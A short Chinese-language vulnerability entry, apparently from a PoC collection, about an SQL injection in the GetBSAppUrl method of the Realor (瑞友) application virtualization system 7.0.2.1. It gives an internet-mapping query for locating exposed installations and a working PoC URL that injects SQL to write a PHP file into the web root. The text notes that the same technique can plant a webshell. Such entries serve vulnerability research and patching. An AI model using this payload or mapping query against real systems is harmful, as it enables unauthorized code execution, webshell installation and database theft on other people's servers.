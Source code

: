 # 

# 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
瑞友应用虚拟化系统 7.0.2.1
```

## 网络测绘

```
"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"
```

## 漏洞复现

登陆页面

![image-20230417100516425](images/image-20230417100516425.png)

在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件

![image-20230417100529493](images/image-20230417100529493.png)

验证POC

```
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![image-20230417100544162](images/image-20230417100544162.png)

```
/test7.php
```

![image-20230417100554583](images/image-20230417100554583.png)
